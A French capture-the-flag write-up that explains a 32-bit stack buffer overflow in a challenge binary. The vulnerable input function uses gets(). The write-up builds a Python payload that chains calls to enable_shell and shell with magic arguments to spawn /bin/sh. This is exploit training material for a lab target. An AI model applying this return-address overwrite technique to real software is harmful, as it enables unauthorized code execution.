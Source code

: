 ## PWN / 0x00b

<p align="center">
  <img src="img/consignes.png" />
</p>

### Fichiers

- binaire : [0xb0f](0xb0f)
- libc : [libc-2.27.so](libc-2.27.so)

### Challenge

Une fois n'est pas de coutume, nous avons un binaire 32 bits, ça faisait longtemps, à garder en tête pour la suite, cela change les conventions d'appel ...

```bash
$ file 0xb0f
0xb0f: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=d504007e94e68eea1de94d0c4f96c05e57cfb843, not stripped
```

```bash
$ checksec --file=0xb0f
RELRO           STACK CANARY      NX            PIE
Partial RELRO   No canary found   NX enabled    No PIE
```


On décompile le code, pour regarder un peu ses fonctionnalités :

#### main()

```c
undefined4 main(void)

{
  uint seed;
  int alea;
  undefined *msg_result [5];
  undefined *local_14;

  local_14 = &stack0x00000004;
  seed = time((time_t *)0x0);
  srand(seed);
  msg_result[0] = &DAT_080488a3; // "lost"
  msg_result[1] = &DAT_080488a8; // "won"
  alea = rand();
  seed = get_int_input();
  printf("[+] You %s\n",msg_result[(alea - (alea >> 0x1f) & 1U) + (alea >> 0x1f) == (seed & 1)]);
  return 0;
}
```

Le programme demande une saisie (un entier) et après un peu de magie dessus décide si l'on gagne ou perd.

Jusque là, rien de fou.

#### get_int_input()

```c
void get_int_input(void)

{
  char user_input [14];

  printf("Give me a number: ");
  fflush(stdout);
  gets(user_input);
  atol(user_input);
  return;
}
```

La fonction appelée pour récupérer la saisie est plus intéressante, puisqu'elle prépare un buffer de 14 octets, mais ne vérifie pas la taille de l'input : `gets()`

Il va donc être possible d'overflow le buffer, et d'écraser la sauvegarde de l'adresse de retoure de `get_int_input()` sur la stack.

La stack est non executable, donc on ne va pas passer par un shellcode ... en revanche on remarque deux autres fonctions qui ne sont pas appelée par le flow d'exécution normal.


#### shell()

```c
void shell(int param_1)

{
  if (param_1 == -0x21524111) {
    if (shell_enabled == '\x01') {
      puts("[+] Launching shell...");
      execve("/bin/sh",(char **)0x0,(char **)0x0);
    }
    else {
      puts("[-] Shell not enabled yet");
    }
  }
  else {
    puts("[-] Wrong value !");
  }
  return;
}
```

Top, on a une fonction qui donne directement un shell dans le programme.

Il faut l'appeler avec `-0x21524111 = 0xdeadbeef` en argument et que au préalable `shell_enabled` (variable globale) soit à `true`.

#### enable_shell()

```c
void enable_shell(int param_1)

{
  if (param_1 == -0x35013f22) {
    shell_enabled = 1;
    puts("[+] Shell enabled");
  }
  else {
    shell_enabled = 0;
    puts("[-] Shell disabled");
  }
  return;
}
```

Elle doit être appelée avec `-0x35013f22 = 0xcafec0de` pour activer `shell_enabled`.

### Solution

Finalement il faut :
- écraser le saved rip de `get_int_input`
- appeler `enable_shell` avec le bon argument
- appeler `shell` avec le bon argument

En 32 bit, les arguments sont passés sur la stack :

```
Adresse de la fonction
Adresse de retour de la fonction
Argument 1
Argument 2
...
```

Il faut donc faire ici attention à l'adresse de retour ... sinon on va appeler `enable_shell()` mais le retour ira n'importe où et la suite ne s'exécutera pas.

En passant l'adresse de `get_int_input()` comme adresse de retour de `enable_shell()`, le programme nous redemandera une saisie et nous pourrons envoyer la deuxième partie du payload :

```python
enable_shell = 0x080485c6
shell = 0x0804861e
get_int_input = 0x0804869a

payload = b"A" * 22
payload += p32(enable_shell)
payload += p32(get_int_input)
payload += p32(0xcafec0de)

payload2 = b"B" * 22
payload2 += p32(shell)
payload2 += p32(0xdeadbeef)
payload2 += p32(0xdeadbeef)
```

Les 22 octets en début de payload sont le padding pour écraser le saved RIP, on peut les calculer statiquement ou regarder dans GDB la disposition de la stack quand on saisit une entrée.

code : [0xb0f.py](0xb0f.py)

